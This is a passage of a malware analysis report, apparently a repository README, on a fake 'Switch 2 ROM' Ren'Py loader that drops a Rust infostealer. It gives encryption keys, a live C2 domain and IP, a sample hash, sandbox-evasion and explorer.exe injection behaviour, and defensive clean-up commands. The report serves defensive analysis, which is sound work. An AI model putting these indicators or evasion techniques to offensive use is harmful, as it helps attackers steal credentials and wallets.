| Config | `data/.GEg` · base64 + XOR, 32-hex-character key | `data\.a9L` · same scheme, different key |
| Archive | `data/j3lpTcg7kBRN.E3` · ZIP XOR `A50YyY1` | `data\oKN_9105.Ox` · ZIP XOR `Hcq2Rwrm` |
| Loader code | `data/libwin32.rpa` | `data\script.rpy` in plain text |
| Drop | `%TEMP%/tmp-…`, `forfiles.exe`, Mark-of-the-Web removal, tracking beacon | `%TEMP%\win_<rand>.exe`, direct launch; no MotW removal or beacon in the script |
| Next stage | MSBuild → .NET → EtherHiding → Amatera | Go loader → `dexter.exe` |

File layout and encryption scheme match. Our sample looks like a simpler variant of the same tool, with a
different follow-on. None of the publications we read mentions a "Switch 2 ROM" lure, a Go loader, or a "yolo"
window.

### 5.2 The last link: the "Lzveil" label

On Hybrid Analysis, the AhnLab engine labels the `dexter.exe` hash `Infostealer/Win.Lzveil`. AhnLab describes
that family in its September 2026 trend report (published 28 October):

- an information stealer written in Rust that downloads its configuration from its server;
- strings hidden with a modified Base64; traffic XOR-encrypted and LZNT1-compressed;
- on start-up it sends the list of installed programs, the CPU name and driver information; the reply may trigger installation of further malware.

An AhnLab post dated 21 October 2026 describes, without naming it, a family with the same traits: first seen
mid-August, widely spread in September as fake cracked software, with recent samples injecting a DLL into
`explorer.exe`. When it detects a sandbox it stops without stealing anything and shows the message "I love
stealing cookies, but not on this machine. Sorry!". The configuration it receives then says what to steal:
browsers, messengers, password managers, VPNs, FTP/SSH tools, crypto wallets, gaming platforms.

| Where it lines up with what we saw | What this does not prove |
|---|---|
| Code active inside `explorer.exe`. | An antivirus label is not an identification. The 21 October post does not name Lzveil; the link is ours. |
| An initial upload to a server right at start-up. | Our window shows different text, in Russian. We do not know whether it plays the same role. |
| A message window shown to the user, followed by a quick exit in a VM. | We observed no received configuration and no theft. The encryption we saw goes through `BCrypt*`; its algorithm is not identified, so we cannot match it to the XOR AhnLab describes. |
| A body LZNT1-compressed (`RtlCompressBuffer`) before sending. | |
| An upload containing the CPU name and the list of installed software. | |

### 5.3 The public sandbox report on `dexter.exe`

| Item (Hybrid Analysis, hash 9335165e…) | Seen by us? |
|---|---|
| Malicious verdict 100/100, 10 of 25 engines | n/a |
| Labels: `Infostealer/Win.Lzveil` (AhnLab), `Win64/Injector.AOW` (ESET), `Trojan/Win64.MALD2` (Antiy), `W64/Agent.NJT` (Varist) | n/a |
| `POST /` over HTTPS to `sigmon-zz.mom` (104.21.58.80) | yes (calls) |
| Writes into `explorer.exe`, then network activity from that process | yes (run 6: `NtWriteVirtualMemory`; run 5: network activity) |
| `IsDebuggerPresent` | yes |
| `GetSystemFirmwareTable`, `GetCursorPos`, timing checks | not attributed |
| Paths `downright\oebsosaentz.inf`, `Python310\uollsuiept.pdf` "touched" | strings read; open attempt on `uollsuiept.pdf` (`CreateFileW`, run 6); never created |
| Pipe `retrievablepervades` | yes (run 6, `NtCreateNamedPipeFile`) |
| Mutex `satirisedlimit`, `VXOLE64.DLL` / `VXSSL64.DLL` | no |
| Reads Firefox, Chrome, Edge, Thunderbird, PuTTY profiles and wallets | no |
| Suspends `msedge.exe`, DPAPI decryption | no |
| Domain with a very recent certificate | n/a |

That report contains neither the "yolo" window, nor the Russian text, nor the names `dexter` or `FalconBridge`.

### 5.4 What we did not find

- No indexed page mentions `sigmon-zz.mom`.
- No publication about a "Switch 2 ROM" lure using Ren'Py.
- No public indicator list for Lzveil: AhnLab keeps its own on its paid platform.

### 5.5 Sources

- Malwarebytes, 20.07.2026: [Fake games spread stealers with RenPy Loader, MSBuild and EtherHiding](https://www.malwarebytes.com/blog/threat-intel/2026/07/fake-games-spread-stealers-with-renpy-loader-msbuild-and-etherhiding)
- Kaspersky Securelist, 11.02.2026: [Active malicious campaign with the RenEngine loader](https://securelist.com/renengine-campaign-with-hijackloader-lumma-and-acr-stealer/118891/)
- Cyderes Howler Cell: [RenEngine Loader and HijackLoader: dual-stage attack chain](https://www.cyderes.com/howler-cell/renengine-loader-hijackloader-attack-chain)
- Gridinsoft, 04.11.2026: [RenPy Loader virus: fake game installer, removal & recovery](https://blog.gridinsoft.com/renpy-virus-fake-game-installer/)
- CyberInsider: [RenEngine campaign infected 400,000 users via cracked games](https://cyberinsider.com/renengine-campaign-infected-400000-users-via-cracked-games/)
- AhnLab ASEC, 28.10.2026: [September 2026 Infostealer Trend Report](https://asec.ahnlab.com/en/96183/)
- AhnLab ASEC, 21.10.2026: [Does it stop when someone is watching? The suspicious behavior of a new type of infostealer](https://asec.ahnlab.com/en/95937/)
- AhnLab ASEC: [Distribution of Rhadamanthys malware disguised as a game developed with Ren'Py](https://asec.ahnlab.com/en/90767/)
- Hybrid Analysis: [sample 9335165e…e6433](https://hybrid-analysis.com/sample/9335165e6e20f07fcad24a6e3f3d67a6e044dd906a9c88fdfbe7328e9ebe6433)

---

## 6. Repository contents and clean-up script

```text
.
├── README.md             this report
├── iocs/iocs.txt         plain-text indicators
└── tooling/              Frida hooks, drivers and lab helpers used for the dynamic analysis
    └── README.md
```

The **clean-up script** is distributed with the [latest release](../../releases/latest) as
`cleanup_FalconBridge.ps1` (with a `SHA256SUMS` file). It runs in **audit mode by default** and only changes
the system with `-Remove`.

```powershell
# 1) Audit only (read-only), elevated PowerShell
powershell -ExecutionPolicy Bypass -File .\cleanup_FalconBridge.ps1

# 2) Quarantine confirmed artefacts and sinkhole the C2 domain
powershell -ExecutionPolicy Bypass -File .\cleanup_FalconBridge.ps1 -Remove -BlockC2
```

What it does and does not do:

- Checks processes, autostart registry keys, scheduled tasks, services, startup folders, WMI consumers, the
  Temp folders of all profiles, the named pipe, and large private executable regions in `explorer.exe`.
- **Quarantines** files (moves them to a quarantine folder) instead of deleting them, and only removes
  automatically what matches a known SHA-256, unless `-IncludeNameMatches` is given.
- Reports indicators that come from external sources without removing them.
- Does not block the reported IP address unless `-BlockC2Ip` is given: it is a shared Cloudflare front.
- Cannot prove a machine is clean. Injected code lives in memory only: **reboot** after clean-up.

## Disclaimer

This material is provided for defensive and educational purposes. Findings relate to a single sample, observed in
a single isolated environment. Third-party information in section 5 has not been independently verified. Run the
tooling only inside an isolated, snapshotted VM, and the clean-up script at your own risk after reading it.
